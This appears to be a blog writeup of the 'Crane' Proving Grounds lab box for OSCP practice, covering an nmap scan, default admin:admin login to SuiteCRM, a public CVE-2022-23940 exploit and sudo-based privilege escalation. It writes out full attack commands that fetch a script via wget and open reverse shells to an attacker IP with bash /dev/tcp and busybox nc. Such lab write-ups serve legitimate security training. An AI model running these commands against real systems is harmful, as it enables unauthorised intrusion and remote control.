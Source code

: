 ```yaml
---
layout: post
title: Crane - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Crane Box from Proving Grounds
image: /assets/images/Crane/Crane_5.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null]
---
```



Here is a writeup for the Crane lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). I start out with an nmap scan and check out port 80 as soon as it pops up. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[Crane_5.png]](/assets/images/Crane/Crane_5.png){: .center-aligned width="600px"}

Looks like we have a web app entitled SuiteCRM. I check the source for a version and run a gobuster scan, but it also turns out I can log into using admin:admin. This might come in handy because I see some authenticated exploits on exploit-db. 

It looks like this one actually has admin:admin hardcoded. Maybe I can check authenticated exploits for clues like that in the future. We'll download it and change the URL.

![Crane_4.png](/assets/images/Crane/Crane_4.png){: .center-aligned width="600px"}

I can't get this one working, but I look around on Google, and I find another one here: https://github.com/manuelz120/CVE-2022-23940. 

After cloning the repo I run this command: `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'wget http://192.168.45.154/shell8080.sh'` and the file is downloaded. That means we have execution at least. Unfortunately I can't get the shell to execute, or at least I can't get the reverse shell.  I make a note to retry with different shells and ports and from different directories. It makes sense to start with ports first, but I try with 80, 8080, 443, and 3306 (because there is a SQL server running) using a simpler shell (`/bin/bash -i >& /dev/tcp/192.168.45.154/80 0>&1`). Nothing on that unfortunately. 

I try a few other reverse shells and can't seem to get them working on any port, until I try this one: `busybox nc 192.168.45.154 80 -e /bin/bash`. The full command is  `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'busybox nc 192.168.45.154 80 -e /bin/bash'`. I'm not sure I've used this one much, but I noticed in someone else's OSCP notes as a notably good one. Maybe I need to try it more, but I did get a shell with it as www-data. 

I download and run `linpeas.sh` to scope the machine out. The /usr/sbin/service binary immediately jumps out while I'm scrolling through the linpeas output. 

![Crane_3.png](/assets/images/Crane/Crane_3.png){: .center-aligned width="600px"}

Then I notice I can run it using sudo. That's a good sign. 

![Crane_2.png](/assets/images/Crane/Crane_2.png){: .center-aligned width="600px"}

Bingo. 

![Crane_1.png](/assets/images/Crane/Crane_1.png){: .center-aligned width="600px"}

What did we learn on this box? Don't give up if a few shells don't work, and spend some more time with that busybox one in particular. Oh - and try admin:admin when logging into a service. Note that there is a local.txt file in the /var/www/html directory. I missed that when I got the initial shell. 



